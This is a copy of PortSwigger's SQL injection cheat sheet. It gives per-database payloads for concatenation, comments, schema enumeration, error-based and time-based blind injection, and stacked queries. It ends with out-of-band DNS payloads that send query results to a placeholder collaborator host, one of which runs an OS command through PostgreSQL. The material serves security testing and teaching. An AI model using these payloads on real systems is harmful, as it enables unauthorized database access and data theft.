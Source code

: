 
**[PORTSWIGGER SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)**

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables` \
`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle  `dbms_pipe.receive_message(('a'),10)` 

Microsoft  `WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT pg_sleep(10)` 

MySQL  `SELECT sleep(10)` 

Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 
'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` 

Microsoft  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` 

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle  The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:\
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

The following technique works on fully patched Oracle installations, but requires elevated privileges: \
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` 

Microsoft  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` 

PostgreSQL  `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` 

MySQL  The following techniques work on Windows only:\
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` \
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 

DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` 

Microsoft  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` 

PostgreSQL  `create OR replace function f() returns void as $$` \
`declare c text;` \
`declare p text;` \
`begin` \
`SELECT into p (SELECT YOUR-QUERY-HERE);` \
`c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';` \
`execute c;` \
`END;` \
`$$ language plpgsql security definer;` \
`SELECT f();` 

MySQL  The following technique works on Windows only:\
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 


